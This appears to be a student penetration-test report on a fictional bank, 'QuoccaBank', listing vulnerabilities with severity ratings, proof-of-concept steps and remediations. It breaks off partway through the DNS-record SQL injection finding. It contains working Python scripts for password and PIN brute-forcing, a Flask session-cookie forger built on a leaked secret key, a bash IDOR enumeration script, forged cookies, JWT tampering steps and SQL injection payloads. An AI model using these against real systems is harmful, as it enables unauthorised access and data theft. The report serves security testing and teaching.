# Executive Summary

QuoccaBank is a "Cyber-Friendly" bank with the prospects of being a reliable and secure service for users. Our team has been asked by QuoccaBank for an interim document describing vulnerabilities that exist within their system, the impact it has on the overall business, and possible remediation to the issues. Topics of focus in this report include:

- Recon vulnerabilities
- Authentication and user access vulnerabilities
- Injection & Server-side vulnerabilities.

After conducting testing on QuoccaBank's systems, our team has discovered that there exist 3 vulnerabilities classified under LOW, 2 vulnerabilities classified under MEDIUM, 6 vulnerabilities classified under HIGH, and 13 vulnerabilities classified under CRITICAL. List of vulnerabilities can be found in the table of contents.

# Severity Classifications

**CRITICAL**

This classification encompasses vulnerabilities that are of urgent concern for QuoccaBank to immediately deal with. These include any privileges escalation, bypassing security measures, accessing confidential data, vulnerabilities that enable remote code execution, insecure access control, etc.

**HIGH**

This classification encompasses vulnerabilities that bypass the security design of QuoccaBank's system.

**MEDIUM**

This classification encompasses vulnerabilities that affect multiple users involved.

**LOW**

This classification encompasses issues that are not of immediate concern for QuoccaBank to deal with. However, it may leave the site exposed to potential vulnerabilities within the system.

# Recon Vulnerabilities

### Subdomain Enumeration

**Details**

Whilst reconnaissance for a website is technically not a vulnerability by itself, recon is performed by the attacker to obtain more information and probe into the weakest link into the network. whilst that being said QuoccaBank can limit the amount of information it leaks as well as make attacker's lives a lot harder by turning on settings such as the wildcard DNS setting. Furthermore, QuoccaBank can look through the way back machine and close off any heritage endpoints that are no longer in use and may be poorly secured for it to not escalate into a vulnerability for the network.

**Methodology**

The recon procedure employed on QuoccaBank is a combination of passive and active subdomain enumeration. Through means such as online scanners, using crt.sh as well as using DNS enumeration tools such as *altdns, amass, gobuster* as well as DNS resolution tools such as *massdns*.

### LOW - Sensitive Metadata in Page Source

**Asset Domain:** blog.quoccabank.com

**Severity Classification:** LOW

**Vulnerability Details**

Sensitive information is stored in `blog.quoccabank.com` inside HTML tags. Furthermore, data such as an author's username can be enumerated by inspecting data in page source code.

**Proof of Concept / Steps to Reproduce**

View the page source of the website and see if sensitive information is stored either in an HTML tag or in the comments.


Similarly, viewing an author's page through this URL route `blog.quoccabank.com/?author=<author_id> ` exposes that author's username, even for hidden/private accounts by inspecting the class name found inside the body tag. This sensitive information can lead to other vulnerabilities such as an attacker attempting to log in to that account as discussed in `Authentication - Weak Passwords and Error Messages`.



**Impact**

Information stored in HTML tags or comments can be used by attackers to gain information on how the web application could operate. Further, it provides unwanted information that can lead to attackers finding a vulnerability, such as leaving in information on potential SQL queries, login credentials for accounts, etc.

**Remediation**

Strip out any sensitive information found in HTML tags or comments when deploying it into the commercial build.

### LOW - Default Configurations: Login Page is accessible

**Asset Domain:** blog.quoccabank.com

**Severity Classification:** LOW

**Vulnerability Details**

The login page for `blog.quoccabank` can be easily found and accessed on the website as it was linked in a post and the owner of `blog.quoccabank.com` used the default configurations for the login route. Attackers can easily find this which could lead to brute force logging in as a user.

**Proof of Concept / Steps to Reproduce**

The URL for the login route can be found on a post. By accessing the post with page_id = 2, the URL is found via an IDOR vulnerability discussed in `IDOR through URL Parameters`.


Another method to find the login in URL route is that by performing some recon, an attacker could easily identify that `blog.quoccabank.com` is powered by the Aperture WordPress theme. This information on the technology used for the web application can prompt attackers to search up default configuration settings. In this case, `/wp-login.php` appears to be the default URL path to log in as a user for this version of WordPress.

**Impact**

Identifying URL routes that can lead to escalation privileges can be a point of vulnerability to utilise exploits such as brute-forcing passwords for different accounts or logging into a user account with admin privileges as discussed in `Authentication - Weak Passwords and Error Messages`.

**Remediation**

Ensure that sensitive URL routes such as `/wp-login.php` are not published within posts and are not publicly accessible throughout the website. It is highly recommended that QuoccaBank change any default configuration settings such as the login path to a different value.


# Authentication and User Access Vulnerabilities

## Authentication

### LOW - No Distinction Between GET and POST Methods in Login Endpoint

**Asset Domain:** bigapp.quoccabank.com

**Severity Classification:** LOW

**Vulnerability Details**

The backend `bigapp` webserver does not distinguish between POST and GET parameters, enabling authentication through GET requests. For example,
`https://bigapp.quoccabank.com/login.html?susername=admin@quoccabank.com&spassword=Admin@123` would result in a successful login.

**Remediation**

Process only POST parameters in the login endpoint. 

### HIGH - Weak Passwords and Error Messages

**Asset Domain:** blog.quoccabank.com

**Severity Classification:** HIGH

**Vulnerability Details**

Some accounts for `blog.quoccabank.com` contain weak passwords. For instance, the password for the `admin` account is `account`, which is trivial for an attacker to guess. Furthermore, the password for the Administrator account `mq` can be easily brute-forced as it is a common password used. Error messages are also used to provide additional information on whether the entered username exists or not. Attackers can use this information to identify which accounts exist.

**Proof of Concept / Steps to Reproduce**

On the login page, if we enter a user's credentials, the page displays different error messages depending on if that username exists or if the password entered was incorrect.




This identifies to an attacker whether a user account exists and focuses their efforts from there. We can easily brute different permutations of characters as the username to determine which user account username is valid. However, alternative means such as performing recon on the author's page discussed in `Recon - Sensitive Metadata in Page Source` and `IDOR through URL Parameters` can be used as alternative means to enumerate possible usernames.

For accounts such as `admin`, it was trivial to guess the password `admin` to gain access. For other accounts such as `mq`, we can brute force the password by using a wordlist containing the most common passwords. The script below performs an attack that quickly brute force the login of a specified user by repeatedly using a password in the most common password wordlist and checking the response.

```python
def brute_force_pwd(pwd, throttle=0):
    # make request
    username = 'mq'
    payload = {
        'log': username,
        'pwd': pwd
    }
    res = requests.post('https://blog.quoccabank.com/wp-login.php', 
                        data=payload, cert=(cert_path, key_path))
    time.sleep(throttle)

    if res.status_code == 420:
        # make the same request again
        brute_force_pwd(pwd, throttle + 0.1)
    else:
        print("Password: " + pwd)
        if "incorrect" not in res.text:
            print("=== FOUND ===")
            exit()

if __name__ == '__main__':
    # common_passwords.txt - SecLists Top 100000 Password List 
    with open("common_passwords.txt", "r") as pwd_list:
        for pwd in pwd_list:
            brute_force_pwd(pwd.strip())
```

Running the brute force script reveals that the password for username `mq` is `1q2w3e`. It also appears that `mq` has Administrator access to `blog.quoccabank.com`.

**Impact**

If an attacker was to have access to an Administrator account, such as `mq`, then this means that they would have full control of the entirety of `blog.quoccabank.com`. The attacker would be able to create posts, delete accounts, modify information for each user, retrieve other user-sensitive data, etc. This can severely lead to a bad reputation for QuoccaBank such that it creates negative publicity from an attacker being able to gain access to an Administrator account. Not to mention that an attacker could also brute force other accounts as well if that account utilises a weak password. With this vulnerability, an attacker has full control in publishing hidden/drafted posts or the ability to impersonate that user.

**Remediations**

- Ensure that error messages when attempting to log in do not reveal much information. Instead, use a generic error message such as "The username or password entered is incorrect" rather than specifying the exact condition in why the attempted log in failed. This makes it difficult for attackers to know which accounts exist and decreases the chance of a successful brute force attack.
- Ensure that there is a password policy in place when creating accounts such that each password must meet a certain condition (i.e. at least one upper case letter, at least one number, etc.) and meet the required password strength. This greatly reduces the risk for the user to use a common password that is susceptible to a brute force password attack such as a dictionary attack. Moreover, it is highly recommended that QuoccaBank follows the NIST 800-63 Password Guidelines to ensure that passwords are not weak to brute force.
- As suggested in the NIST 800-63 Password Guidelines, ensure that there is a maximum attempt for the user to log in before locking the account. This makes it difficult for attackers to easily brute force the password as they have limited attempts. Further, QuoccaBank should have something such as reCAPTCHA to distinguish between a human or bot attempting to log in or have rate limiting in place.

### HIGH - Unverified JWT token on 'notes.quoccabank.com' leads to vertical privilege escalation

**Asset Domain:** notes.quoccabank.com

**Severity Classification:** HIGH

**Vulnerability Details**

The 'https://notes.quoccabank.com/' endpoint utilized a JWT token as its primary authentication token. Within this token includes two key value pair fields in its payload: Username and Expiry. Upon modifying the username to admin@quoccabank.com and the expiry time to a valid expiry time in the future, then submitting it to the website 'notes.quoccabank.com' response with text showing the user has been authenticated as admin.

**Steps to Reproduce**

Visit "https://notes.quoccabank.com/" and grab the cookie from local storage or a cookie editing plugin downloaded from your browser app store.

You will be faced with this information:


Grab the cookie from browser local storage or, in this case, 'Editmycookie' (a chrome extension).


Paste the cookie into JWT.io, and change the payload to the following :

`Username: "admin@quoccabank.com"` `exp: "<some valid time in the future>"`


Replace the current JWT token in 'notes.quoccabank.com' and refresh


**Impact and Attack Scenarios**

Vertical privilege escalation is a very severe vulnerability as it allows the attacker to gain more power over the website (by becoming admin), and may lead to them gaining a foothold onto the entire system.

**Mitigations**

Mitigations include verifying the JWT token on the backend to ensure integrity, furthermore do not use JWT as an authentication mechanism.

### HIGH - Insecure Hash Algorithm for User Credentials

**Asset Domain:** bigapp.quoccabank.com

**Severity Classification:** HIGH

**Vulnerability Details**

The backend database stores user passwords as an unsalted MD5 hash - MD5 has been cryptographically unsuitable for over a decade. In the event of a breach (e.g. as a result of the above SQLi vulnerabilities), these credentials will be trivial to crack.

**Remediation**

Salt passwords before committing their hash to a database (to prevent precomputed dictionary lookup attacks) and adopt a modern cryptographic hashing algorithm (e.g. SHA256).

### CRITICAL - Insecure authentication in files.quoccabank.com/admin

**Asset Domain:** files.quoccabank.com

**Severity Classification:** CRITICAL

**Vulnerability Details**

Although the admin endpoint for files.quoccabank.com requires authentication before access to the page is given, it can be easily brute-forced to access sensitive data behind the insecure method of authentication.

**Proof of Concept / Steps to Reproduce**

Upon navigating to the admin portal, it can be seen that the page is protected by a 4 digit access code. Using Burp Suite, the browser's network tab, or analysing the page's source code, it is evident that a POST request is made to the same website with the entered pin every time a user enters an access code and clicks on the GO button. Knowing the structure of the request, a script can be run to automate the brute-force process for trying every 4-digit access code combination to bypass the authentication, such as in the Python script below.

```python
# Generate all possible combinations of 4 digit codes
from itertools import product
DIGITS = [str(i) for i in range(10)]
NUM_DIGITS = 4
codes = list(product(DIGITS, repeat=NUM_DIGITS))

# Brute-force authentication by trying all codes
import requests
URL = 'https://files.quoccabank.com/admin'
for a, b, c, d in codes:
  # Send code as a POST request to URL
  data = {'pin': a + b + c + d}
  resp = requests.post(URL, data=data, cert=(CERT_PATH, KEY_PATH))
  if len(resp.text) != 198:
    # Print code used to bypass authentication
    print(data)
    exit()
```

In less than two minutes, the program indicated that 1024 was the expected access code to unlock the admin portal. As evident in the image below, entering this code provides access to the contents behind the admin authentication.


**Impact**

As can be seen above, a normal user can access the admin portal content without initially knowing the correct access code. However, brute-forcing and trying every four-digit access code combination allows one to successfully find the correct code and access the contents behind the authentication in less than two minutes.

**Remediation**

Since there are only 104 or 10000 such combinations of four-digit codes, someone can easily brute-force the authentication by trying each combination. Increasing the complexity of the code (such as having extra digits or using alphanumeric characters like a password) makes brute-forcing more costly. Incorporating rate-limiting to requests slows down the process of brute-forcing, which makes finding the correct access code through a similar method more time-consuming. In such a case, using a secure password instead may be a better alternative. However, as suggested in the image, this portal seems to be deprecated so the best form of prevention is to not have the endpoint in the first place by removing it.

### CRITICAL - Vertical privilege escalation and logging in as any user in files.quoccabank.com

**Asset Domain:** files.quoccabank.com

**Severity Classification:** CRITICAL

**Vulnerability Details**

Using passive reconnaissance, a user can find the endpoint to a sensitive page containing instructions on providing staff access to themselves. This also means that any normal user can gain staff privileges and access sensitive staff data through vertical privilege escalation. Since staff members have access to the Flask secret key, an attacker can log in as any desired user and access sensitive files on their account, as well as undergo further vertical privilege escalation to obtain the Admin role.

**Proof of Concept / Steps to Reproduce**

Inspecting the page source code and/or analysing the network traffic when loading files.quoccabank.com, I noticed that a call to 'app.d4309454.js' was made to dynamically determine content to be rendered on the page using JavaScript. Since Wappalyzer indicated that Vue.js was one of the frontend frameworks used in the application's stack, I had a feeling that additional page routes can be exposed by analysing the JavaScript file. Beautifying the JavaScript code so it is more readable, I noticed the following code snippet which allowed me to find the suspicious route of '/staff/wfh'.

```javascript
{
  path: "/staff/wfh",
  name: "wfh",
  component: L
}
```

Navigating to https://files.quoccabank.com/#/staff/wfh displays the following working from home help page with instructions for staff members on gaining staff privileges through visiting a URL.


Although users are prompted to enter their username to gain staff privileges, it seems that any user can gain staff privileges by simply requesting staff access with their username instead. This means that normal users can get staff access through following the link, as evident in the image below where sensitive staff files have now been added to a normal user's account (after requesting staff access for their username).


Finding the Flask secret key of '$hallICompareTHEE2aSummersday' in the staff_flask_secret_key file, an attacker is now able to log in as any desired user. Using the Python script below, an attacker can generate a session cookie for another user using the Flask secret key, and use this cookie to impersonate and login as them.

```python
# Reference: https://ctftime.org/writeup/11812
import hashlib
from itsdangerous import URLSafeTimedSerializer
from flask.sessions import TaggedJSONSerializer

KEY = '$hallICompareTHEE2aSummersday'

def decode_flask_cookie(secret_key, cookie_str):
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
    s = URLSafeTimedSerializer(secret_key, salt=salt, serializer=serializer, signer_kwargs=signer_kwargs)
    return s.loads(cookie_str)


def encode_flask_cookie(secret_key, cookie):
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
    s = URLSafeTimedSerializer(secret_key, salt=salt, serializer=serializer, signer_kwargs=signer_kwargs)
    return s.dumps(cookie)


if __name__ == '__main__':
    # Any cookie - determine structure of decoded payload
    cookie = 'eyJyb2xlIjp7IiBiIjoiVTNSaFptWT0ifSwidXNlcm5hbWUiOiJ0ZXN0In0.YM3-0Q.Wr7mv0JrqapDElKfzFs2Vp7caHM'
    cookie_val = (decode_flask_cookie(KEY, cookie))
    print(cookie_val)
    # Generate cookie to login as any user with specified role
    new_cookie = dict(cookie_val)
    new_cookie['username'] = 'Admin'
    new_cookie['role'] = b'Admin'
    print(encode_flask_cookie(KEY, new_cookie)) 
```

In this example, I was able to log in to Admin's account, view their stored files as well as create my own file inside of their account, as evident in the image below. I was also able to undergo further vertical privilege escalation by changing my role to an Admin to access even more sensitive data.


**Impact**

As evident above, any user can exploit vertical privilege escalation to gain access to sensitive staff files, even if they are not QuoccaBank staff. This can then be chained with the exposed Flask secret key to generate session cookies allowing an attacker to log in as any user and/or undergo further vertical privilege escalation into an admin account, interacting with the application as such a user normally would.

**Remediation**

The WFH help page containing instructions for staff relied on security by obscurity to ensure that normal users wouldn't know about the page itself. However, this could be exposed through passive reconnaissance, and it seems that anyone can access the page. A page designed to only be accessed by staff members should not be accessible to all users, nor rely on security by obscurity. The main issue, however, is that the server grants staff access to any username requested using '/covid19/supersecret/lmao/grant_staff_access?username={username}'. There should be server-side authorisation checks to ensure that the user who wants to be granted staff access in files.quoccabank.com is indeed a staff member in the first place. Furthermore, it seems that all staff members have access to the Flask secret key, presumably to be able to access files from any user. By design, this poses a security concern since any staff member can log in like a normal user would, and makes the system vulnerable to insider attacks. The role parameter stored in session cookies can also be updated, which means that all staff members can have further vertical privilege escalation to become admins themselves. User roles should not be stored on session cookies if the Flask secret key is accessible, but ideally be stored on the backend database to lookup what permissions a user has access to, rather than the user telling the application what it should have access to.

## Session Management - Insecure Access Control

### CRITICAL - Client side Session Validation via Cookies (Part I)

**Asset Domain:** bigapp.quoccabank.com

**Severity Classification:** CRITICAL

**Vulnerability Details**

The logic for controlling a client's session is dependent upon an insecure clientside cookie. This allows an attacker to authenticate themselves into an administrative session without legitimate credentials. 

**Proof of Concept / Steps to Reproduce**

The `login-cookie` cookie is a base64 encoded string in the format `email:role`, which is trivial to edit and thus allows an attacker to establish an administrative session without credentials. 


i.e. changing the `login-cookie` to `YWRtaW5AcXVvY2NhYmFuay5jb206YWRtaW4=` (`admin@quoccabank.com:admin` base64 encoded). 


**Remediation**

Ideally, divorce the session validation and creation logic + data from the client. If this is not possible (i.e. stateless application), utilise existing rigorous frameworks for storing session data on the client, such as JWTs. 

### CRITICAL - Client side Session Validation via Cookies (Part II)

**Asset Domain:** sales.quoccabank.com

**Severity Classification:** CRITICAL

**Vulnerability Details**

The logic for controlling a client's session is dependent upon an insecure clientside cookie. This allows an attacker to authenticate themselves into an administrative session without legitimate credentials. 

**Proof of Concept / Steps to Reproduce** 

We note that the server establishes a base64 encoded cookie named `metadata` with a decoded value of `admin=0`. Sending requests with the `metadata` cookie set to the base64 encoded value of `admin=1` (`YWRtaW49MQ==`) authenticates us into the admin dashboard. 


**Remediation** 

Ideally, divorce the session validation and creation logic + data from the client. If this is not possible (i.e. stateless application), utilise existing rigorous frameworks for storing session data on the client, such as JWTs. 

# Injection & Server-Side Vulnerabilities

## Insecure Direct Object References (IDOR)

### MEDIUM - IDOR vulnerability leads to unauthorized access and information leakage.
**Asset Domain:** support.quoccabank.com

**Severity Classification:** MEDIUM

**Vulnerability Details**

The 'support.quoccabank.com/raw/' endpoint allows for the user to submit support tickets, but utilizes base58 encoding to obfuscate the generated unique id in the format `user_id:page_number`. Therefore by brute force enumeration, one can view the files of all users on the database.

**Proof of Concepts**

This is the bash script that enumerates all the possible ids and page numbers and prints the response code for the user to `grep`.

```shell
#!/bin/sh
#$1 = id
#$2 = max_number
split_input() {
        local body=$(echo $response| sed 's/{.*}//')
        local json=$(echo $response| sed 's/.*{/{/')
        local response_code=$(echo $json| jq '.response_code')
        echo "number = $i,code = $response_code, file= $file"
        #echo $body
        #echo $json
        if [ $response_code -eq "200" ]
        then
                echo $body | grep '6443'
        fi
}
for i in $(seq 0 10000)
do
        file=$(echo -n "$i:1"| base58)
        #file=$(echo -n "$1:$i"| base58)
        response=$(curl -s --proxy http://127.0.0.1:8080 -k -i "https://support.quoccabank.com/raw/$file" --write-out '%{json}')
        split_input $response $i $file
        sleep 0.1
done
```

For this endpoint `https://support.quoccabank.com/raw/RVnSH2uR` aka `raw/1125:4` encoded in base58


Similarly `https://support.quoccabank.com/raw/VVBWU75i` aka `raw/9447:1` 


**Steps to Reproduce** 

You can either run the brute-forcing script to find out other users ids, pages or you can just pipe the above input into [Cyberchef](https://gchq.github.io/CyberChef/) as shown in the figure below, then paste it into 'https://support.quoccabank.com/raw/{base58(input)}' and there will be information leakage.


**Recommendations**


Security by obscurity is not the proper method to securing a web application, encoding is not the same as encrypting and obfuscation on the id codes are easily defeated by brute force methods or just people who are capable and willing to spend a lot of time to defeat any mechanisms. Other methods for generating unique tokens such as a hash algorithm, preferably not MD5, but even MD5 is better than base58.

### MEDIUM - IDOR through URL Parameters

**Asset Domain:** blog.quoccabank.com

**Severity Classification:** MEDIUM

**Vulnerability Details**

There exist IDOR vulnerabilities seen with `blog.qoccabank.com` in the URL whereby an attacker can display information and metadata about the author or posts by modifying the URL parameters and accessing that webpage. This opens up the possibility for attackers to open up an author's page to identify their username through inspecting the page source for any metadata or display hidden posts.

**Proof of Concept / Steps to Reproduce**

Through navigating `blog.quoccabank.com`, notice that loading a page about an author is in the form of this URL pattern `blog.quoccabank.com/?author=<author_id>`.  It appears that each author has their own page that contains information about them and that it is indexed by the author_id. As discussed in `Recon - Sensitive Metadata in Page Source`, it appears that sensitive metadata about an author's username appears in the body class, even for authors that are hidden. Attackers can perform some recon to find different usernames through this IDOR vulnerability by inspecting sensitive metadata found in the page source code.


Additionally, it appears that the IDOR vulnerability can be used to display posts that are hidden by modifying the URL pattern `blog.quoccabank.com/?page_id=<page_id>` where each post is accessed through a page_id. This is especially problematic as an attacker can go through different page_id's and fetch hidden posts which may contain privilege information meant for the account only. For example, accessing the post with page_id = 2 displays information about QuoccaBank's company restructure.



**Impact**

Having a direct reference to an author's page can lead to other vulnerabilities as showcased in both `Recon - Sensitive Metadata in Page Source` and `Authentication - Weak Passwords and Error Messages`. The direct reference to that object can lead an attacker to enumerate more information such as an author's username which can lead to other vulnerabilities.

Any sensitive information within hidden blog posts can be accessed by an attacker through this IDOR vulnerability. This means that potential confidential information about any author account, specifically QuoccaBank, can be leaked and damage the reputation of the company. For example, having access to view the `Company Restructure [DRAFT - do NOT publish]` post directly accessible through referencing the page id is dangerous as attackers can maliciously use this information to negatively impact QuoccaBank's publicity and stakeholders involved.

**Remediation**

Ensure that hidden posts are private and cannot be accessed by changing the URL parameters. Furthermore, proper access control should be in place such that the author of a hidden post has the only permission to view that post. This prevents any unauthorised users from accessing objects directly. Another remediation is to hash the direct reference to an object. In this case, both the author_id and page_id parameter values should have been hashed or encoded by a secret key such that enumerating different URL parameters for posts and author pages are made difficult by an attacker. QuoccaBank should not store any confidential information as a post in `blog.quoccabank.com` seen with `Company Restructure [DRAFT - do NOT publish]`. Instead, this type of confidentiality should be stored locally or by other more secure means.

### CRITICAL - IDOR vulnerability in files.quoccabank.com

**Asset Domain:** files.quoccabank.com

**Severity Classification:** CRITICAL

**Vulnerability Details**

Insecure direct object references (IDOR) are a type of access control vulnerability where a user can access unauthorised resources in an application directly through manipulating supplied input to object references. For the files application, this means that a user can access any file from any other user, bypassing the usual authentication protocol required for accessing the file. 

**Proof of Concept / Steps to Reproduce**

Registering as a normal user (such as with a username of 'foo') and creating a new file with the default presets (filename of 'new_file' and content of 'sample text'), it can be observed that the newly created file can be accessed with the URL https://files.quoccabank.com/document/new_file?r=Zm9v. Noticing that the file can still be accessed even when the user has already logged out, suggests that an IDOR vulnerability may exist if we can manipulate the URL to point to another object reference. Deconstructing the URL structure, it is evident that all files adhere to the following format: `https://files.quoccabank.com/document/{filename}?r={base64encoded_string}`. Base64 decoding 'Zm9v' returns my username of 'foo', suggesting that the application uses both parameters of username and filename to retrieve a queried file. Given that user authentication is not required to access a file, a user is hence able to manipulate both parameters to retrieve any file from any user they want. Say I want to access the sensitive 'flag' file under an admin's account, which would normally be protected by the admin password, anyone can access the file content by visiting `https://files.quoccabank.com/document/flag?r=YWRtaW4=`, where 'YWRtaW4=' is the base64 encoded string for the username of 'admin', as demonstrated in the image below. Note that no authentication session cookie was required in the HTTP request either.


**Impact**

The IDOR vulnerability means that files from any user can be leaked by directly manipulating the query parameters of username and filename. This includes sensitive files such as 'flag' from the admin's account. This is a critical vulnerability since sensitive files from any sensitive QuoccaBank clients can be leaked, as well as important data stored on an admin account which could indicate endpoints that regular users wouldn't usually know about, such as the '/admin' endpoint leaked from the admin's flag file in the image above.

**Remediation**

The user's session cookie should be used to authenticate the user before access to the requested files is given. The cookie should be tamper-proof so that only those who should have access to the files can view them. If file sharing through this method was an intended feature (which doesn't seem likely given that normal users cannot update the permissions of their files), then other authorised users will also need to be validated on the server-side before they can view the file. 

## SQL Injection

### HIGH - SQL Injection in Registration Page

**Asset Domain:** bigapp.quoccabank.com

**Severity Classification:** HIGH

**Vulnerability Details**

The `email` parameter in the `create.html` registration endpoint is vulnerable to SQL Injection, allowing execution of arbitrary SQL statements. Injecting into this `insert` statement allows both record exfiltration (using either boolean or time-based methods) and record modification/creation. For example, an attacker could take advantage of the `ON DUPLICATE KEY UPDATE` directive to overwrite the credentials of the administrative user. 

**Proof of Concept / Steps to Reproduce**

By appending `'or '1'='1` to a benign email in the `email` parameter, we notice we can tamper with the backend SQL logic (note the resulting error message).


**Remediation**

Make use of the prepared statements binding provided in the appropriate backend framework. Refer to `https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html` for further guidance.

### CRITICAL - SQL Injection in `period` parameter

**Asset Domain:** pay-portal.quoccabank.com

**Severity Classification:** CRITICAL

**Vulnerability Details**

The `period` parameter is vulnerable to SQL injection, allowing the execution of arbitrary SQL statements. An attacker may exfiltrate records in the local database or escalate to RCE depending on the environment. 

**Proof of Concept / Steps to Reproduce**

By experimenting with common bad characters we notice that a double quote (`"`) in the period parameter causes the server to throw a syntax error - clueing us into the exploitable SQLi vulnerability. 


We use a double quote to escape the string context, leaving us free to control the logic in this selection - as a POC we invoke a traditional `or '1'='1'` payload to dump all rows followed by a semicolon and comment delimiter; making sure to encode a whitespace character after the double-dash (see `https://dev.mysql.com/doc/refman/5.7/en/comments.html`). 

`https://pay-portal.quoccabank.com/?period=1%22%20or%20%271%27%20=%20%271%27;%20--`


With regards to full exploitation - since stacked queries are not enabled here, we would apply union selection techniques to extract data in band (e.g. looting information_schema then appropriate tables). A lack of write privileges makes RCE proper unlikely. 

**Remediation**

Make use of the prepared statements binding provided in the appropriate backend framework. Refer to `https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html` for further guidance.

### CRITICAL - SQL Injection through DNS Record

**Asset Domain:** signin.quoccabank.com

**Severity Classification:** CRITICAL

**Vulnerability Details**

Without understanding the general functionality of a web application, it can be hard to identify where the application is SQLi vulnerable. As seen with `signin.quoccabank.com`, the web application is vulnerable to SQLi by using two external services, `qdns.quoccabank.com` and creating a DNS record. The SQL injection allows us to extract sensitive information in the database, such as email addresses and passwords, modify contents or delete data. Error messages shown when providing an invalid SQLi payload minimises the difficulty in determining the potential exploit needed.

**Proof of Concept / Steps to Reproduce**

Using `qdns.quoccabank.com`, we can link an IP address to a domain name. It appears that when resetting the password in `signin.quoccabank.com`, it fetches DNS information from a domain that is linked through `qdns.quoccabank.com` and populates the data in the database to be displayed on the home page.



Judging by this, it appears that every time a user resets their password, the backend of the web application performs some sort of DNS lookup to a domain linked to the user's IP address specified from `qdns.quoccabank.com` and from there, perform an SQL `UPDATE` query given the DNS information. As such, we have found a place that an attacker can inject an SQLi payload into. By creating a TXT record with the given SQLi payload as its content, we have found where the web application is vulnerable. Since the backend performs some kind of DNS lookup, it is using that result to update the database. As such, the SQL query would look something like this where `reset_details` would include the DNS information for the linked domain.

```sql
UPDATE users SET password=?, reset_details=<DNS information>, last_reset=?, reset_actor=? where email=?
```

